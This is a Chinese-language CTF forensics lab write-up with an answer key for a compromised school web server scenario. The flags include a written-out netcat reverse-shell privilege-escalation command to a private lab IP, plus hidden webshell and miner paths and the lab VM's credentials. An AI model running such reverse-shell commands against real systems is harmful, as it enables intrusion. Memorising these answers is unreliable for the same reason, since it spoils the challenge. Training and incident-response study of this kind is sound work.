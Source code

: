 ## 前言

搭建并模拟一些基础漏洞出现，以防御者视角去找出问题，并尝试修复，也可以以攻击者角度进行攻击，代码改动，服务测试等，此程序未对外界造成影响，不足之处希望多多批评指正

## 故事情节

```
杰克是某小学的网站开发者，同时也是运维人员
在某天，某攻击者通过旁站，成功攻击进入系统并留下后门
好在，杰克在系统中抓取了全程流量包，请你帮忙分析一下攻击者做了哪些操作
PS:本题目有CTF成分
```

## 镜像信息

```
系统：ubuntu-22.10-desktop-amd64
Linux账号密码：security/P@ssw0rd
mysql账号密码：root/password
镜像扩展名：.OVF
PS:镜像文件可能较大，保证内存空间足够
```


下载地址：

- https://cloud.189.cn/t/zQvEfiZvIBb2 （访问码：4ddz）
-  https://pan.baidu.com/s/1g21D-IYm4Bk3cNSPyZntXA 提取码: 28jy 



## 题目

PS:杰克创建在流量包(result.pcap)在根目录下，请根据已有信息进行分析

攻击者使用的端口扫描工具是?

通过流量及日志审计，攻击者上传shell的时访问web使用IP地址是多少?

审计流量日志，攻击者反弹shell的地址及端口?

攻击者使用的提权方式及工具是什么?

攻击者创建的新用户名是?

攻击者将shell删除并放到了其他web目录，文件名被改变了，找出他的绝对路径及文件名

攻击者使用新用户留下了木马进行不法行为，找出程序名,给出程序的绝对路径

## 挑战开始

### 1.攻击者使用的端口扫描工具是?

> flag{nmap}

![image-20240904150149547](./imgs/image-20240904150149547.png)

### 2.通过流量及日志审计，攻击者上传shell的时访问web使用IP地址是多少?

> flag{192.168.150.1}

![image-20240904150653047](./imgs/image-20240904150653047.png)

### 3.审计流量日志，攻击者反弹shell的地址及端口?

> flag{192.168.150.2:4444}

![image-20240904150757821](./imgs/image-20240904150757821.png)

### 4.攻击者使用的提权方式及工具是什么?

> flag{sudo nc -e /bin/bash 192.168.150.2 8888}

![image-20240904151954169](./imgs/image-20240904151954169.png)

### 5.攻击者创建的新用户名是?

> flag{securityy}

![image-20240904151454371](./imgs/image-20240904151454371.png)

### 6.攻击者将shell删除并放到了其他web目录，文件名被改变了，找出他的绝对路径及文件名

> falg{/var/www/blog/.ShEllHAha/.hackba.php}

![image-20240904151637090](./imgs/image-20240904151637090.png)

### 7.攻击者使用新用户留下了木马进行不法行为，找出程序名,给出程序的绝对路径

> falg{/opt/.Qwert/.Wakuang.sh}

![image-20240904151832950](./imgs/image-20240904151832950.png)

![image-20240904151852597](./imgs/image-20240904151852597.png)
